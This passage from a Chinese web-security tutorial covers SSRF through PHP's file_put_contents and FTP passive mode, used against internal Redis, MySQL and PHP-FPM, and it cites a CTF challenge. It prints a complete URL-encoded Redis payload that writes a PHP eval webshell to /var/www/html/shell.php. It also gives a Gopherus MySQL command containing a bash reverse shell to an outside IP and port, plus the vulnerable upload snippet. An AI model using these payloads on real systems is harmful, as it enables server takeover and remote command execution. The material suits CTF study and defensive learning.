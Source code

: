 得到的 Payload 只选取 `_` 后面的部分

后面也就是攻击机搭建FTP服务，然后监听

被攻击机构造请求并发送payload

```
/?file=ftp://aaa@47.101.57.72:23/123&data=%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2435%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B%22whoami%22%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
```

就可以成功写入webshell了。

###  FTP打Mysql

假设内网中存在 MySQL 并且可以未授权访问的话，我们也可以直接攻击其 MySQL，具体操作有查询 MySQL 中的数据、写入 Webshell、UDF 提权执行系统命令等。

首先使用 [Gopherus](https://github.com/tarunkant/Gopherus) 生成 Payload：

```
python2 gopherus.py --exploit mysql
root    # 这里输入MySQL的用户名
system bash -c "bash -i >& /dev/tcp/47.101.57.72/2333 0>&1";  # 这里输入的是需要执行的MySQL语句或命令, 这里我们反弹shell
```

得到的 Payload 只选取 `_` 后面的

然后后面一样的。

## 加载恶意 .so 实现 RCE 绕过 disable_functions



上传代码

```
<?php
file_put_contents($_GET['file'], $_GET['data']);
```

#### 原理

通过`file_put_contents`上传文件到FTP服务器，FTP将`data内容`发送到PFM端口，从而实现加载so文件，而so文件中是恶意命令，从而实现恶意命令执行。其中data的内容是payload。在payload发送前需要先传so文件上去。

#### 演示过程

直接通过CTF题

参考：[蓝帽杯的 One Pointer PHP](http://42.193.170.176:8099/index.php/archives/7/)

原理：

>先利用数组溢出，看phpinfo，有open_basedir和disabled_functions。先写入文件，可以连接蚁剑，获取webshell，但是打不开文件目录。利用ini.set绕过open_basedir。但是文件内容看不到，没有权限，需要提权。但提权的前提是获得shell，需要反弹shell。就利用FTP打FPM,从而加载so文件，从而实现反弹shell，后面就是提权。
>
>
